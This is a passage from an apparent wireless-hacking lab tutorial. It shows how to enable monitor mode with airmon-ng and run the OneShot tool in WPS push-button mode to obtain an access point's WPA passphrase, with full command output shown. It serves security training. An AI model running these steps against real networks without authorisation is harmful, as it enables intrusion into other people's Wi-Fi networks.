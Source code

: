 wlan0: flags=4163&lt;UP,BROADCAST,RUNNING,MULTICAST&gt;  mtu 1500
        inet 192.168.1.23  netmask 255.255.255.0  broadcast 192.168.1.255
        ether 02:00:00:00:01:00  txqueuelen 1000  (Ethernet)
        RX packets 43  bytes 6665 (6.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 42  bytes 7530 (7.5 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
</code></pre>
<h3>Using Oneshot</h3>
<p>We can also use <a href="https://github.com/fulvius31/OneShot/tree/master">Oneshot</a> to automate the exploitation of PBC. Oneshot will automatically generate the valid WPS PIN and WPA passphrase for the access point.</p>
<p>To use Oneshot, we first need to enable monitor mode on the <code>wlan0</code> interface by using <code>airmon-ng</code>.</p>
<pre><code class="language-shell-session">[!bash!]$ airmon-ng start wlan0

Found 5 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    183 avahi-daemon
    205 wpa_supplicant
    215 avahi-daemon
    225 NetworkManager
   1215 dhclient

PHY	Interface	Driver		Chipset

phy1	wlan0		htb80211_chipset	HTB ChipSet of 802.11 radio(s) for mac80211
</code></pre>
<p>Once monitor mode is enabled, we can run Oneshot with the <code>--pbc</code> argument to connect using PBC mode.</p>
<pre><code class="language-shell-session">[!bash!]$ python3 /opt/OneShot/oneshot.py -i wlan0mon --pbc

[*] Running wpa_supplicant…
[*] Starting WPS push button connection…
[*] Scanning…
[*] Selected AP: D8:D6:3D:EB:29:D5
[*] Authenticating…
[+] Authenticated
[*] Associating with AP…
[+] Associated with D8:D6:3D:EB:29:D5 (ESSID: HackTheWireless)
[*] Received Identity Request
[*] Sending Identity Response…
[*] Sending WPS Message M1…
[*] Received WPS Message M2
[*] Sending WPS Message M3…
[*] Received WPS Message M4
[*] Sending WPS Message M5…
[*] Received WPS Message M6
[*] Sending WPS Message M7…
[*] Received WPS Message M8
[+] WPS PIN: '&lt;PBC mode&gt;'
[+] WPA PSK: '&lt;SNIP&gt;'
[+] AP SSID: 'HackTheWireless'
</code></pre>
<p>Oneshot will use the PBC method to connect to the access point and provide us with the WPA PSK for the network. We can then use these credentials to connect to the network.</p>
<div class="alert alert-primary fade show" role="alert">
<i class="mdi mdi-information-outline mr-2"></i> In the lab environment, the router's button is pressed every 15 seconds.
</div>
<hr/>